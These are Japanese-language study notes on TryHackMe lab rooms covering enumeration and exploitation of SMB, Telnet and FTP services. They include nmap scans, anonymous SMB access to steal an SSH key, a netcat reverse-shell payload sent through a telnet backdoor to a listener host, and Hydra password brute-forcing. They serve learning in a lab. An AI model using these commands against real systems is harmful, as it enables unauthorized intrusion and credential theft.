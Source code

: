 # 20210829

## THM

### Pre Security

* Network Fundamentals
  * OSI ModelからFreeじゃなかった
  * とりあえずMonthly PlanでPremiumに加入
  * おわらせたが、1日おきにアクションを取ることで得られるものがあると気がついたのでPre Securityはほかが進まないときに使うことにした

### Cyber Defense Introduction: Network Services

#### Enumerating SMB

* nmapでポートスキャンして、smbが開いてればEnum4Linuxで情報を集める
  * [Nmapのroom](https://tryhackme.com/room/furthernmap)やっとけとのことなのでそのうちやる

```bash
nmap -sV -sC -T4 10.10.44.145
enum4linux 10.10.174.22 -A > e4l.txt
```

#### Exploiting SMB

* CVE-2017-7494のような脆弱性を攻めるのもいいが、誤った設定を利用した侵入が最適であることが多いとのこと
  * やらせたいだけな気がしないでもない
* まずは匿名アクセスが許可されているかどうかを確認する
  * Enumeratingのフェーズで見つけた共有にAnonymousユーザーを使ったログインを試行する

```bash
smbclient //10.10.174.22/profiles -U Anonymous
```

* 「sshを設定した」というメッセージと.sshが無造作に置かれている
  * メッセージからユーザー名を推測する
  * .sshから秘密鍵を取得する
* 上記でsshアクセスしてFlagを取得

#### Enumerating Telnet

* well-known portにはなにもみつからないので-p-タグをつけてnmapを実行する
* サービスがunknownなポートがみつかるのでtelnetをかます
  * 堂々と「SKIDY'S BACKDOOR」と記載されており、.RUNでコマンド実行されるとのこと

```bash
nmap -sV -sC -T4 10.10.44.145
nmap -sV -sC -T4 -p- 10.10.44.145

telnet 10.10.44.145 8012
```

#### Exploiting Telnet

* TelnetのCVEを探すための参考サイトが紹介されるが、今回は特に使わない
  * [cvedetails.com](https://www.cvedetails.com/)
  * [cve.mitre.org](https://cve.mitre.org/)
* backdoorから任意コード実行できるが、投げっぱなしで結果が取得できないのでリバースシェルを狙う

```telnet
.RUN pwd
```

* 適当にコマンドを投げてみても特に何も返ってこない
* 本当にコマンドが通っているかどうかを確認する

```bash
sudo tcpdump icmp -i eth0
```

```telnet
.RUN ping $ip -c 1
```

* ICMPが見えたのでコマンドは実行できている
* リモートにコマンドが投げ込めそうなのは確認したので、リバースシェルのペイロードを作成する

```bash
msfvenom -p cmd/unix/reverse_netcat lhost=$localip lport=4444 R
# mkfifo /tmp/iprh; nc 10.10.87.142 4444 0</tmp/iprh | /bin/sh >/tmp/iprh 2>&1; rm /tmp/iprh
nc -lvp 4444
```

```telnet
.RUN mkfifo /tmp/iprh; nc 10.10.87.142 4444 0</tmp/iprh | /bin/sh >/tmp/iprh 2>&1; rm /tmp/iprh
```

```bash
# Connection from ip-10-10-44-145.eu-west-1.compute.internal 44364 received!
```

* 接続したディレクトリを覗いてFlagを取得

#### Enumerating FTP

* nmapで覗くとFTPがいるのでanonymous FTP loginが許可されていることを利用して覗く
* Alternative Enumeration Methodsとして、脆弱なFTPのバージョンにおけるcwdの挙動の違いを利用したEnumerationが紹介されている
  * [Solaris 2.6/7.0 - IN.FTPD CWD 'Username' Enumeration](https://www.exploit-db.com/exploits/20745)

```bash
nmap -sV -sC -T4 10.10.205.120
nmap -sV -sC -T4 -p- 10.10.205.120

ftp $ipaddr
# Connected to XXX.XXX.XXX.XXX.
# 220 Welcome to the administrator FTP service.
# Name (10.10.205.120:root): anonymous
```

* みえてるtxtからFTPユーザー名を推測する

#### Exploiting FTP

* 推測したユーザー名でbruteforceする
  * Hydraを利用する

```bash
hydra -t 4 -l mike -P /usr/share/wordlists/rockyou.txt -vV 10.10.205.120 ftp
```

* passwordがヒットするので、これを利用してFTPログインする
* Flagを取得する

#### Expanding Your Knowledge

* このroom後に読むと良いという資料が紹介されているので後で読む
  * [exploiting-simple-network-services-in-ctfs-ec8735be5eef](https://medium.com/@gregIT/exploiting-simple-network-services-in-ctfs-ec8735be5eef)
  * [attack.mitre.org/techniques/T1210](https://attack.mitre.org/techniques/T1210/)
  * [nsa-warns-vulnerabilities-multiple-vpn-services](https://www.nextgov.com/cybersecurity/2019/10/nsa-warns-vulnerabilities-multiple-vpn-services/160456/)

<!-- 
```bash
```
-->
